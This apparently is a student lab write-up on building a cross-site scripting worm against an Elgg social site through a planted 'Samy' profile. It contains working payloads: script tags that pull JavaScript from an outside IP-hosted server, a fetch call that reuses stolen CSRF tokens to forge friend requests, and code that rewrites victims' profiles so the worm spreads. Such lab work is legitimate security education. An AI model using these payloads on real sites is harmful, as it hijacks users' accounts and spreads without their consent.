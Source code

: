 # Setup
In this assignment I am creating a server using node js and express. By the help of express I am broadcasting some scripts. By the following code snippet the script_{id}.js is recieved by the victim who is visiting Samy´s profile and the code in the script_{id}.js is executed in his browser.
```html
<script type=text/javascript src=http://20.249.212.251:3030/script_{id}.js></script>
```
The above code is in the description of Samy´s profile.

# Task 1
In this task I have to make the victim send a friend request to Samy while visiting Samy´s profile. To achieve the goal I first observed the requests sent while friend request is sent. I copied the url. I also have to gather the __elgg_ts and __elgg_token values that I get from elgg object. I used string interpolation to generate the request url and use fetch method to trigger the request.

```javascript
const script_1 = async () => { await fetch(`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${elgg.security.token.__elgg_ts}&__elgg_token=${elgg.security.token.__elgg_token}&__elgg_ts=${elgg.security.token.__elgg_ts}&__elgg_token=${elgg.security.token.__elgg_token}`); }
```

![task1 image]()

# Task 2
In this task I have to make some changes in the victim´s profile. So my approach was as usual. I observed the requests sent while updating profile. Copy the url and request payload. Build my form data body. Create the option object for fetch function and hit the server.

```javascript
    if (elgg.session.user.guid != 59) {
        await fetch(url, {
            method: `POST`,
            body: formData
        })
    }
```
There was a challenge to make the worm functional in such a way that the attacker don´t get damaged by the worm. So I checked before hitting the server that the user is Samy or not. 

# Task 3
This task was similar to task 2. I just observed the sites behavior on posting a blog. Figure out the form body format. Built a similar form data and call the fetch function with appropriate options object.

# Task 4
In task 2 I changed user profile. While changing user profile I set description field by my department Id with script links in the following way,
```javascript
    const link_1=`<script type=text/javascript src=http://20.249.212.251:3030/script_1.js></script>`
    const link_2=`<script type=text/javascript src=http://20.249.212.251:3030/script_2.js></script>`
    const link_3=`<script type=text/javascript src=http://20.249.212.251:3030/script_3.js></script>`
    const link=`<script type=text/javascript src=http://20.249.212.251:3030/script.js></script>`

    formData.set(`description`, `<p>1805066</p>${link}${link_1}${link_2}${link_3}`);
```
Thus the bad scripts become linked with our next victim who visit Samy´s profile or any of the previous victims. 
